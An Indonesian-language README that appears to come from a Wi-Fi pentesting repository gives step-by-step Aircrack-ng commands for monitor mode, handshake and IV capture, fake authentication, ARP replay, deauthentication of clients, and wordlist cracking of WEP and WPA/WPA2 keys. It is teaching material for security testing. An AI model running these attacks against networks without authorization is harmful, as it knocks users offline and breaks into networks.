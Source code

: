# Aircrack-NG

![Aircrack-NG](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/aircrack-ng/img/aircrack-ng.jpg)

## Instalasi

Kali Linux:

1. Menggunakan package manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install aircrack-ng
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre2-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils expect
   git clone https://github.com/aircrack-ng/aircrack-ng
   cd aircrack-ng
   autoreconf -i
   ./configure --with-experimental
   make
   sudo make install
   sudo ldconfig
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```

## Penggunaan

**1. Scan Wi-Fi:**

1. Scan semua jaringan (tanpa filter):

   ```
   sudo airodump-ng [interface]
   ```
2. Filter berdasarkan enkripsi:
   - WEP:

      ```
      sudo airodump-ng --encrypt WEP [interface]
      ```
   - WPA/WPA2-PSK

      ```
      sudo airodump-ng --encrypt WPA,WPA2 [interface]
      ```

**2. Capture Handshake/IVs:**

1. WEP:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WEP --ivs --write [output] [interface]
   ```
2. WPA/WPA2-PSK:

   ```
   sudo airodump-ng --bssid [bssid] --channel [channel] --encrypt WPA,WPA2 --write [output] [interface]
   ```

**3. Jalankan Serangan:**

1. WEP:
   1. Buat autentikasi palsu ke AP target:

      ```
      sudo aireplay-ng --fakeauth 0 -a [bssid] -h [mac_interface] [interface]
      ```
   2. Menangkap dan me-replay paket ARP untuk menghasilkan traffic:

      ```
      sudo aireplay-ng --arpreplay -b [bssid] -h [mac_interface] [interface]
      ```
   3. Tunggu hingga IVs terkumpul cukup banyak.
      - Minimal sekitar 40.000 - 85.000 IVs untuk WEP 64-bit
      - Minimal sekitar 85.000 - 150.000 IVs untuk WEP 128-bit
2. WPA/WPA2-PSK:
   1. Putuskan koneksi client menggunakan Deauth Attack:

      ```
      sudo aireplay-ng --deauth [jumlah] -a [bssid] [interface]
      ```
      
      > **Catatan:**
      > - Kalau ingin deauth client tertentu gunakan opsi `-c [mac_client]` setelah opsi `-a [bssid]`.
      > - Kalau ingin deauth terus-menerus tanpa henti ganti `[jumlah]` dengan `0`.
   2. Tunggu hingga handshake tertangkap.
      - Lihat notifikasi `WPA handshake: [BSSID]` di `airodump-ng`.
        
**4. Crack Handshake/IVs:**

1. WEP:

   ```
   aircrack-ng -a 1 -b [bssid] [file_capture]
   ```
2. WPA/WPA2-PSK:

   ```
   aircrack-ng -a 2 -b [bssid] [file_capture] -w [wordlist]
   ```

## Video Demonstrasi

1. WEP:  
   [https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP](https://youtu.be/L1kuud_8Nq4?si=0s5uupcoe9l8KmgP)
2. WPA/WPA2-PSK:  
   [https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6](https://youtu.be/ts5spqeq1Ew?si=OIiFeEqNsAOT4RZ6)
